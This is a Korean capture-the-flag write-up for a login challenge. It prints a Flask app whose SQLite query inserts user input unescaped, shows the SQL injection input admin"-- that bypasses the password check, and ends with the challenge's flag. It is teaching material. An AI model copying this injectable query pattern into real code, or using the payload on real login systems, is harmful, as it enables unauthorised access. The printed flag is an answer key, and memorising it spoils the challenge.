 문제는 **로그인 서비스입니다. SQL INJECTION 취약점을 통해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.** 이다.  

코드를 보면 다음과 같다.  

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)
```

다음은 웹 사이트 입니다.  

<img src="7.jpg"> <img src="4.jpg">

1. /login  
로그인을 하는 화면이다.

먼저 GET(로그인 화면으로 들어갈 때) 을 하면 **login.html** 을 render 한다.  
그리고 POST(로그인 버튼을 누를 때) 를 하면 **userid, userpassword** 를 가져와서

```SQL
select * from users where userid="{userid}" and userpassword="{userpassword}"
```

에 넣어서 이 쿼리문에 대한 결과를 반환한다.  

그렇다면 SQL Injection 의 실습에서 했던 것처럼 **userpasword** 를 검사하지 못하게, **주석처리**를 하면 된다.  

따라서 이렇게 공격문을 적을 수 있다.

<img src="5.jpg">

이렇게 적으면,

```SQL
select * from users where userid="admin"--" and userpassword="{userpassword}"
```

이렇게 인식이 되서

```SQL
select * from users where userid="admin"
```

이러한 쿼리가 완성된다.

```python
res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
```

즉, /login에 있는 위의 코드에서 **질의 결과가 res** 에 들어가고, **res의 0번 인덱스(id)를 userid** 에 넣는다.

그리고 userid 가 **admin** 이면, **FLAG**를 보여주는 방식이다.

<img src="6.jpg">

따라서 정답은 **DH{c1126c8d35d8deaa39c5dd6fc8855ed0}** 이다.